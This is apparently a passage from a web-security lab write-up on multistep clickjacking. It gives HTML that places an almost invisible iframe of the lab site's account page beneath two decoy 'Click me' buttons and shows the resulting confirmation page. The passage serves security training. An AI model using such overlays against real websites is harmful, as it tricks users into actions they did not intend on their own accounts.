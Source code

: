 And adapted it to this example:

```
<head>
    <style>
        #target_website {
            position:relative;
            width:100%;
            height:100%;
            opacity:0.0001;
            z-index:2;
            }
        #button1 {
            position:absolute;
            top:530px;
            left:400px;
        }
       #button2 {
            position:absolute;
            top:330px;
            left:570px;
        }
    </style>
</head>
<body>
    <button class="button" id="button1" type="submit">Click me first</button>
    <button class="button" id="button2" type="submit">Click me next</button>
    <iframe id="target_website" src="https://0a910056047f851e816330fc004400af.web-security-academy.net/my-account/">
    </iframe>
</body>
```

If you host it in the exploit server after clicking “Click me first” button it takes to the confirmation page:



![img](images/8%20-%20Multistep%20clickjacking/2.png)